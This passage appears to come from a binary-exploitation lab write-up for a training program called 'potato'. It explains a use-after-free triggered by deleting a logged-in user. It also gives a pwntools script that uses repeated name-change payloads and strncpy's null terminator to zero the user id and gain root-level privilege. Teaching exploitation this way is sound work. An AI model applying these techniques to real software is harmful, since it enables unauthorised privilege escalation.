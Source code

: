 ```python
#
p.sendline(b"delete")
p.sendline(b"4")

#
# We should be "root" now
#
p.interactive()
```

## demonstrate a use after free or double free condition in the program

Use the python script `./pwn_potato2_priv_user.py` to gain user privileges for user "peter".
In order to get a "use after free condition", the user "peter" can be removed from the
user list while being logged in at the same time. After the removal the memory chunk which
contains peters data is still referenced from the `session->logged_in_user` global variable.
Invoking `whoami()` after the user got deleted, causes a "use after free" condition.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
# set a breakpoint where user entries are removed
# and a second one that outputs user data
gdb.attach(p, '''
break main
break userlist.c:88
break func.c:216
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter" + b"\x0a"
p.sendline(payload)

```